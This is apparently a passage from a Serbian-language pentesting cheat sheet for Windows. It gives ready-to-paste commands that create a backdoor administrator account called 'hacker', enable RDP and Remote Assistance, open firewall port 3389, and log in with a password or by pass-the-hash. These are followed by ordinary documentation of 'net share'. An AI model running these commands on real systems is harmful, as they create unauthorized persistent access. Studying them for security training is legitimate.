 ```bash
#Enable Remote assistance:
reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable

#Ninja combo (New Admin User, RDP + Rassistance + Firewall allow)
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

::Connect to RDP (using hash or password)
xfreerdp /u:alice /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:10.11.1.49
xfreerdp /u:hacker /d:WORKGROUP /p:Hacker123! /v:10.11.1.49
```

### Deljenje

#### Pregled

Komanda `net share` se koristi za prikazivanje informacija o deljenim resursima na sistemu. Ova komanda prikazuje naziv deljenog resursa, putanju do resursa, tip resursa i eventualne dodatne opcije.

#### Prikazivanje svih deljenih resursa

```
net share
```

#### Prikazivanje detaljnih informacija o određenom deljenom resursu

```
net share <naziv_resursa>
```

#### Kreiranje novog deljenog resursa

```
net share <naziv_resursa>=<putanja_do_resursa> [/GRANT:<korisnik>,<prava>] [/REMARK:"komentar"]
```

* `<naziv_resursa>`: Naziv deljenog resursa koji želite da kreirate.
* `<putanja_do_resursa>`: Putanja do direktorijuma koji želite da delite.
* `<korisnik>`: Korisnik kojem želite da dodelite prava pristupa deljenom resursu.
* `<prava>`: Prava pristupa koja želite da dodelite korisniku (npr. `READ`, `WRITE`, `FULL`).
* `/REMARK:"komentar"`: Opcioni komentar koji možete dodati deljenom resursu.

#### Brisanje deljenog resursa

```
net share <naziv_resursa> /DELETE
```
